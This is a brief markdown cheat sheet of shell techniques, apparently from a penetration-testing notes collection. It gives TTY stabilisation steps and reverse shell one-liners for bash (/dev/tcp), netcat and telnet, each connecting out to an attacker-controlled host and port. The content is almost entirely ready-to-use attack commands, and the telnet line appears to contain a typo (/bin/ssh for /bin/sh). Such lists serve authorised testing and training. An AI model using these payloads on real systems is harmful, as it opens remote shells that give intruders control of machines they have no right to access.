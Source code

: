 # Shells

## Stabilizing shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

## Reverse shells

### Bash

```bash
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

### Netcat

```bash
nc -e /bin/sh <LHOST> <LPORT>
nc -c /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y
```

### Telnet

```bash
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

